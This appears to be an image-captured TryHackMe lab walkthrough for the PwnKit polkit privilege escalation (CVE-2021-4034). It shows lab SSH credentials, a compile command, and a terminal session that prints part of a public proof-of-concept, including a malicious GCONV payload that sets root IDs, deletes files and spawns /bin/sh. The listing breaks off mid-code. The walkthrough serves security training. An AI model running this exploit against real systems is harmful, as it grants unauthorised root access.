 >>The version that we will be using is written in C by arthepsy, and was released soon after the Qualys security advisory was made public. The repository can be found here. This variation of the exploit makes use of the dangerous GCONV_PATH variable to include a malicious shared object file that calls the /bin/sh shell with root permissions.

>>First, we must connect to the target machine. If you are using the in-browser connection, then you will already have access through your browser, using the terminal on the right-hand side of the screen.

>>If you are not using the in-browser connection, then you can connect using SSH and these credentials:
```
Username: tryhackme
Password:  TryHackMe123!
```
>>Once connected, we need to navigate to the pre-added pwnkit/ subdirectory, then compile the exploit using the following command:
```
gcc cve-2021-4034-poc.c -o exploit
```
>>We can then run the exploit with ./exploit to obtain instant root access over the target!

```bash
┌[rawbot@pwnbox]─[/home/rawbot]
└╼[★]$ ssh tryhackme@10.10.179.91
tryhackme@10.10.179.91's password: 

                 ____                 _    _ _   
                |  _ \__      ___ __ | | _(_) |_ 
                | |_) \ \ /\ / / '_ \| |/ / | __|
                |  __/ \ V  V /| | | |   <| | |_ 
                |_|     \_/\_/ |_| |_|_|\_\_|\__|
                                                 

tryhackme@pwnkit:~$ 
tryhackme@pwnkit:~$ ls
pwnkit
tryhackme@pwnkit:~$ cd pwnkit/
tryhackme@pwnkit:~/pwnkit$ ls
cve-2021-4034-poc.c  README.md
tryhackme@pwnkit:~/pwnkit$ cat cve-2021-4034-poc.c 
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n\n"
        "void gconv() {}\n"
        "void gconv_init() {\n"
        "       setuid(0); setgid(0);\n"
        "       seteuid(0); setegid(0);\n"
        "       system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
        "       exit(0);\n"
        "}";

int main(int argc, char *argv[]) {
        FILE *fp;
```